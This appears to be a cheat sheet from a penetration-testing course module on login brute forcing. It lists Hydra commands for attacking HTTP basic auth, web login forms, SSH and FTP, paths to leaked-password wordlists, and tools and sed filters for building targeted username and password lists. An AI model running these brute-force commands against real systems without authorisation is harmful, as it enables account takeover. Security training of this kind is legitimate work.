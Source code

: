 # Login Brute Forcing

## **Cheat Sheet**

The cheat sheet is a useful command reference for this module.

## Hydra

| **Command**                                                                                                                            | **Description**                                     |
| -------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------- |
| `hydra -h`                                                                                                                             | hydra help                                          |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /`                                                                                   | Basic Auth Brute Force - Combined Wordlist          |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`                                                             | Basic Auth Brute Force - User/Pass Wordlists        |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`                                                                     | SSH Brute Force - User/Pass Wordlists               |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`                                                                                   | FTP Brute Force - Static User, Pass Wordlist        |

## Wordlists

| **Command**                                                                        | **Description**            |
| ---------------------------------------------------------------------------------- | -------------------------- |
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt`                      | Common Passwords Wordlist  |
| `/opt/useful/SecLists/Usernames/Names/names.txt`                                   | Common Names Wordlist      |

## Misc

| **Command**                                     | **Description**                        |
| ----------------------------------------------- | -------------------------------------- |
| `cupp -i`                                       | Creating Custom Password Wordlist      |
| `sed -ri '/^.{,7}$/d' william.txt`              | Remove Passwords Shorter Than 8        |
| ``sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt`` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt`              | Remove Passwords With No Numbers       |
| `./username-anarchy Bill Gates > bill.txt`      | Generate Usernames List                |
| `ssh b.gates@SERVER_IP -p PORT`                 | SSH to Server                          |
| `ftp 127.0.0.1`                                 | FTP to Server                          |
| `su - user`                                     | Switch to User                         |
